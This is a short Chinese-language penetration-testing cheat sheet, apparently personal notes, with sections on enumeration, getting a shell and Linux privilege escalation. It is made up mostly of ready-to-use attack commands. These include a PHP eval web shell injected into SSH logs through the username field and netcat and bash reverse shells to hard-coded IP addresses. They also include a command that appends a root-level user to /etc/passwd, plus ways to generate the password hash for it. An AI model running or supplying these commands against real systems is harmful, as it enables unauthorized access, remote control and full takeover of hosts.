 ### 收集信息

###### enum4linux

```
用于枚举Windows和Samba主机中的数据。
```











### GET-shell



#### ssh日志get-shell

```
直接尝试登陆
ssh '<?php @eval($_REQUEST['cmd']);?>'@ip

这里输错几次密码 同时，这段一句话木马也会留在/var/log/auth.log里，如果没有被转译的话

然后用蚁剑连接
```



#### 反弹shell

###### netcat反弹

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.36.101.179 443 >/tmp/f");?>

```

###### bash反弹

```
bash -i >& /dev/tcp/192.168.1.106/8888 0>1&
bash -i >& /dev/tcp/192.168.1.106/8888 0>1& | bash
```



### 提权

#### linux

###### 升级tty shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

###### capabilities提权

```
CAP_DAC_READ_SEARCH 忽略文件读及目录搜索的 DAC 访问限制

使用getcap查看权限，如：tar拥有权限，可以打包后，再解压文件，实现越权读取
```

###### /etc/passwd提权

构造一个用户 uid设置为0

```
#利用openssl生成加密的密码, 语法：openssl passwd-1-salt[salt value]password
openssl passwd -1 -salt user3 pass123
 
#mkpasswd类似于openssl passwd，它将生成指定密码字符串的哈希值。
mkpasswd -m SHA-512 pass
 
#利用python中的crypt库生成
python -c 'import crypt; print crypt.crypt("pass", "$6$salt")'
 
#利用Perl和crypt来使用salt值为我们的密码生成哈希值
perl -le 'print crypt("test","addedsalt")'
 
#php语言
php -r "print(crypt('aarti','123') . " ");"


echo "test:adMpHktIn0tR2:0:0:User_like_root:/root:/bin/bash" >>/etc/passwd


```



#### windows

### 后门
